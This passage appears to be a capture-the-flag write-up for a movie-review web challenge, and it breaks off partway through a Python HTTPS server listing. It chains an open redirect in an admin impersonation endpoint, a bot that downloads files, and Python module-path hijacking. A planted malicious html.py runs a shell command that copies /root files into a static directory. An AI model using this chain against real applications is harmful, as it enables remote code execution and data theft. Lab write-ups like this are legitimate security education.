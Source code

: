 
Alright, so it seems that the frontend javascript times out for 2 seconds, then directs the user to the page in the `GET` parameter `redirect_to`. We can abuse this by setting any remote full URL into the parameter, to make an `open redirect`.

This means that if an admin visits the link `/admin/impersonate?username=moderator%40movie-review.local&redirect_to=https://example.com/` they will be directed to `https://example.com` after two seconds.

We can abuse this functionality with the admin bot to send it out of bounds, but where should we send it and what should we serve it?

We know from the experimental features that the bot will download files to the root directory if served downloadable files. **This is quite a vulnerability** since if we make the bot download a malicious python module to the folder that `app.py` resides in, then due to the order in the `module search path` (https://docs.python.org/3/tutorial/modules.html#the-module-search-path) the malicious module will be preferred over the actual module.

In concrete terms what this means, is that since `app.py` imports `html.py` and uses the function `escape()` from the import, then if we manage to put a file `html.py` into the same directory as `app.py` is in, with a function definition for `escape()` then it will be used over the intended `html.py`. 

So let´s create a malicious `html.py` that has a function `escape()` that reads every file in `/root/` out to a file `flagt.css` in the directory serving static files (`/app/static`)

`html.py:`
```python
# html.py (the evil one)
import subprocess

#Follow the exact way the function is used in app.py
def escape(a,quote="a"):
  subprocess.run("cat /root/*.txt > /app/static/flag.css", shell=True)
```

Now we have the payload, let's get it delivered. We need to host a web server with https that when prompted for this file will send it for download.

What makes the browser download a file instead of just showing it is the `Content-Disposition` header, so when a browser visits our server looking for `html.py` we need to return the header

    Content-Disposition: attachment; filename="html.py"

We can create a web server that does this with the following python code:

```python
# httpsserver.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl
import mimetypes
import os
import time
import socket

class StreamingHandler(SimpleHTTPRequestHandler):
    def send_chunk(self, chunk):
        try:
            self.wfile.write(chunk)
            self.wfile.flush()
            return True
        except (ssl.SSLEOFError, ssl.SSLError, ConnectionResetError,
                BrokenPipeError, socket.error):
            return False

    def do_GET(self):
        if os.path.isfile(self.translate_path(self.path)) and not self.path.endswith('.html'):
            try:
                self.send_response(200)
                self.send_header('Content-Type', mimetypes.guess_type(self.path)[0])
```